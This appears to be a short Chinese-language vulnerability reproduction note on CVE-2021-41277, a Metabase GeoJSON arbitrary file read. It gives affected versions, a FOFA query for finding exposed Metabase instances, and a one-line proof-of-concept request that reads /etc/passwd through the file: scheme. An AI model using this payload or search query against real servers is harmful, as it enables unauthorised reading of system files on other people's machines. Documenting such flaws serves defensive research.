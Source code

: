 # Metabase geojson 任意文件读取漏洞 CVE-2021-41277

## 漏洞描述

在受影响的版本中，自定义 GeoJSON 地图（admin->settings->maps->custom maps->add a map）操作缺少权限验证，攻击者可通过该漏洞获得敏感信息

## 漏洞影响

```
metabase version < 0.40.5
metabase version >= 1.0.0, < 1.40.5
```

## FOFA

```
app="metabase"
```

## 漏洞复现

登录页面

![image-20220524152541900](./images/202205241525945.png)

验证POC

```
/api/geojson?url=file:/etc/passwd
```

![image-20220524152721994](./images/202205241527087.png)